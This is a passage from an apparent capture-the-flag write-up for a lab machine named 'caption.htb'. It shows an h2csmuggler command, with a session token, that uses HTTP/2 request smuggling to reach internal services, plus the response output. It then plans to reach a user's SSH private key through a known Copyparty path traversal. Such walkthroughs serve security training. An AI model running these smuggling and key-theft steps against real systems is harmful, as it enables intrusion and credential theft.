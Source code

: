 ```bash
        <br/><br/><center>
        <ul>
            <li><a href="/download?url=http://127.0.0.1:3923/ssh_logs">SSH Logs</a></li>
            <li><a href="/download?url=http://127.0.0.1:3923/fw_logs">Firewall Logs</a></li>
            <li><a href="/download?url=http://127.0.0.1:3923/zk_logs">Zookeeper Logs</a></li>
            <li><a href="/download?url=http://127.0.0.1:3923/hadoop_logs">Hadoop Logs</a></li>
        </ul></center>
<...snip...>
```
We noticed that a response was received, and upon scrolling down, we found the server's reply with a `200 OK` status, along with the HTML source code of the log page. From the logs, it appears that the user margo utilizes a private key for SSH connections. Interestingly, instead of the RSA algorithm, the key is based on the ECDSA algorithm. This suggests that the private key is likely located at /home/margo/.ssh/id_ecdsa instead of the default id_rsa.

Additionally, we need to check the man page at `http://127.0.0.1:3923` to analyze the server's response and examine the contents of the page for further insights.

```bash
python3 h2csmuggler.py -x 'http://caption.htb' http://caption.htb/download\?url\=http://127.0.0.1:3923/ -X "GET" -H "Cookie: session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNzM3NjQ4ODgyfQ.j6wdhmR1Ed3hZVUbIwTcsS4__9wFeUio4F30_d23zw8 "
[INFO] h2c stream established successfully.
:status: 200
server: Werkzeug/3.0.1 Python/3.10.12
date: Thu, 23 Jan 2025 15:59:00 GMT
content-type: text/html; charset=utf-8
content-length: 4316
x-varnish: 98441
age: 0
via: 1.1 varnish (Varnish/6.6)
x-cache: MISS
accept-ranges: bytes
<...SNIP...>


		document.documentElement.className = localStorage.theme || dtheme;
	</script>
	<script src="/.cpr/util.js?_=kVPa"></script>
	<script src="/.cpr/baguettebox.js?_=kVPa"></script>
	<script src="/.cpr/browser.js?_=kVPa"></script>
	<script src="/.cpr/up2k.js?_=kVPa"></script>
</body>

</html>
<...SNIP...>
```

A .crp directory or anything similar that loads JavaScript files using arguments or indices was discovered during the script session analysis. Further investigation and a Google search for CRP-related attacks led us to Exploit-DB entry #51636. Copyparty, a portable file server with known vulnerabilities, including a path traversal issue, is linked to.crp, according to this entry.
